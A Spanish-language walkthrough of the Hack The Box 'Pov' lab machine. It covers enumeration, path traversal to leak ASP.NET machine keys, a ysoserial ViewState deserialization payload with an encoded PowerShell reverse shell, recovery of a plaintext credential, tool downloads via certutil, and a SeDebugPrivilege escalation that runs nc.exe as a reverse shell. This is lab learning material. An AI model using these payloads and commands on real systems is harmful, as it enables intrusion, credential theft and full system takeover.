# Scan 
Comenzamos realizando un escaneo con ``nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.230.183 -oN scan ``

Al entrar a la web vemos esta pagina así que vamos a añadir pov.htb a nuestro ``/etc/hosts``

Ahora enumeramos los vhost con``wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hl 233 -H "Host: FUZZ.pov.htb" -u http://pov.htb -t 100``  y encontramos:

# Dev.pov.htb
Lo añadimos al ``/etc/hosts`` y lo abrimos en el navegador.

Vemos un botón de descarga cv lo descargamos y lo miramos con exiftool:

Vemos el usuario turbo que podría ser interesante en un futuro.
La pagina anterior era .aspx por lo que vamos a ver como se esta realizando la descarga con burpsuite.

# Ysoserial
Al ver **&file=cv.pdf** podemos intentar un local file inclusión para ello voy a usar este diccionario https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/refs/heads/master/Directory%20Traversal/Intruder/deep_traversal.txt y voy a buscar el archivo **web.config** que es el que contiene las claves de cifrado del framework ASP.NET

Aquí tenemos como resultado el web.config que contiene el machinekey que es lo que cifra y firma el viewstate ahora vamos a general un payload con ysoserial consiguiendo asi una revershell.
```xml
decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" AES
validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" SHA1
VIEWSTATEGENERATOR=8E0F0FA3
```
Vamos a utilizar https://github.com/pwntester/ysoserial.net y https://www.revshells.com/ para construir nuestra revshell y lo ejecutamos desde windows:
Ahora desde **windows** usamos ysoserial:

En este caso usamos ViewState que es el campo que vamos a utilizar para la inyección:
Ahora vemos los ejemplos y vamos probándo los plugins asta conseguir el rce:




```powershell
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/portfolio" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQA3ADQAIgAsADYANgA2ADYAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```


Ahora hacemos el envió de los datos serializados por el parámetro **VIEWSTATE** ahora cuando la aplicación los deserialize se ejecutara nuestro código dándonos una reverseshell. 


Ahora una vez conseguimos una shell como sfitz vamos a enumerar en busca de vectores de ataque para la escalada de privilegio.
# Privesc 
## Alaading
En documentos encontramos un archivo connection.xml

Vemos que es un objeto PSCredential para leerlo vamos a usar los siguientes comandos:
```powershell
PS C:\users\sfitz\documents> $cred = Import-Clixml -Path "C:\users\sfitz\documents\connection.xml"
PS C:\users\sfitz\documents> $cred.GetNetworkCredential().UserName
alaading
PS C:\users\sfitz\documents> $cred.GetNetworkCredential().Password
f8gQ8fynP44ek1m3
PS C:\users\sfitz\documents> 
```
Ahora con las credenciales vamos a usar runas para entablar una revershell como alaading:
https://github.com/antonioCoco/RunasCs/releases/tag/v1.5
```powershell
Primero subimos runas a nuestro Windows --> en nuestra maquina python -m http.server 80
certutil.exe -urlcache -f http://10.10.16.174/runas.exe runas.exe
Ahora usamos ruans para enviarnos una reverseshell
./Runas.exe alaading f8gQ8fynP44ek1m3 powershell.exe -r 10.10.16.174:4444
```

Ahora en el escritorio encontramos la user flag 

## NT AUTHORITY\SYSTEM
Enumeramos los privilegios de alaading y vemos que tenemos **SeDebugPrivilege**


Buscando encontramos este articulo https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeDebugPrivilege#sedebugprivilege. Así que vamos a usar la siguiente herramienta para escalar privilegios https://github.com/bruno-1337/SeDebugPrivilege-Exploit.
```powerhsell
Primero subimos runas a nuestro Windows --> en nuestra maquina python -m http.server 80
certutil.exe -urlcache -f http://10.10.16.174/nc.exe nc.exe
certutil.exe -urlcache -f http://10.10.16.174/SeDebugPrivesc.exe SeDebugPrivesc.exe
```
Ahora ponemos 552 porque es el PID de winlogon.exe que se suele ejecutar siempre como NT AUTHORITY\SYSTEM 
``./SeDebugPrivesc.exe 552 "C:\users\alaading\desktop\nc.exe 10.10.16.174 1111 -e C:\Windows\System32\cmd.exe"``

Y así conseguiríamos la shell como NT AUTHORITY\SYSTEM y la root.flag ubicada en su desktop.
